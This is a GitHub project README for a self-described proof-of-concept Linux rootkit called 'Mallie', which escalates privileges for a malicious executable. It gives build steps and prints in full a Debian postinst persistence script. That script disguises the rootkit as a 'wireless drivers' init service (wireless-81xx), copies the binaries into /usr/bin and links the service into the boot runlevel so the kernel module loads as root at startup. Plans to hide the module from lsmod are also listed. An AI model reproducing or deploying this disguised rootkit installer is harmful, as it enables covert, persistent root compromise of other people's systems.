 # Mallie
A Proof-Of-Concept sample linux rootkit that escalates privilleges for a malicious executable, and launches the malicious executable in user space using usermodehelper.

## TODO
- More features for the rootkit, e.g., hide itself from lsmod .etc
- Use to serve functions for another executable

## Build Instructions
This project is still a work-in-progress, but if you'd like to try it out, feel free to do so.

1. Simply clone the project and make it: ```cd mallie && make```
2. Two files will be created: ```root.ko``` and ```mallie (an ELF executable)```

## Resources
- Create deb package: https://www.internalpointers.com/post/build-binary-deb-package-practical-guide
- Make install script in the deb package using DEBIAN/preinstall same as the DEBIAN/control file

## Auto-Start on Boot Script
1) chmod 755 to the postinst script.

2) Once that is done create a symbolic link in the run level directory you would like to use, for example if you wanted to run a program in the graphical runlevel 2, the default runlevel for Ubuntu, you would place it in the /etc/rc2.d directory. You just cannot place it the directory, you must signify when it will run by indicating the startup with an “S” and the execution order is important. Place it after everything else that is in the directory by giving it a higher number. If the last script to be run is rc.local and it is named S99rc.local then you need to add your script as S99myscript. Symbolic link: `ln -s /etc/init.d/myscript /etc/rc3.d/S99myscript`

```bash

#!/bin/bash
# This `DEBIAN/postinst` script is run post-installation

echo '#!/bin/bash' > /etc/init.d/wireless-81xx
echo '
### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0 ' >> /etc/init.d/wireless-81xx

chmod 755 /etc/init.d/wireless-81xx
cp /usr/local/bin/mallie /usr/bin/
cp /usr/local/bin/root.ko /usr/bin/
ln -s /etc/init.d/wireless-81xx /etc/rc3.d/S01wireless-81xx
sh /etc/init.d/wireless-81xx start

```

/etc/init.d/wireless-81xx
```bash
#! /bin/bash

### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0

```

## Credits
https://askubuntu.com/questions/290099/how-to-run-a-script-during-boot-as-root <br>
https://gist.github.com/drmalex07/298ab26c06ecf401f66c <br>
https://github.com/xcellerator/linux_kernel_hacking
